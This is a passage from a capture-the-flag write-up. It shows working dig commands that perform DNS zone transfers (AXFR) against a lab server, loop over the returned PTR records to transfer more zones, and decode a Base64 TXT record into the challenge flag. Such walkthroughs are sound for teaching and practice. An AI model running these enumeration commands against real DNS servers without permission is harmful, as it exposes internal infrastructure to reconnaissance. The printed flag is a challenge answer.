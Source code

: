 That's better, but still no FLAG. However, we see a large number of `PTR`
records being returned. Let's iterate them and look for some FLAGs.

```console
$ dig @jessiejames.infra.tcc catalog.infra.tcc AXFR | grep -o "PTR .*" | sed "s/PTR //" | while read zone; do dig @jessiejames.infra.tcc $zone AXFR; done | grep TXT
40ae12928dbf450106d8097a7ec875ea.banneron.infra.tcc. 86400 IN TXT "RkxBR3tBdlhPLWlNazctM2JvSC1pWURwfQ=="
```

Almost there, the last missing piece is to decode the Base64 value

```console
$ echo RkxBR3tBdlhPLWlNazctM2JvSC1pWURwfQ== | base64 -d
FLAG{AvXO-iMk7-3boH-iYDp}
```
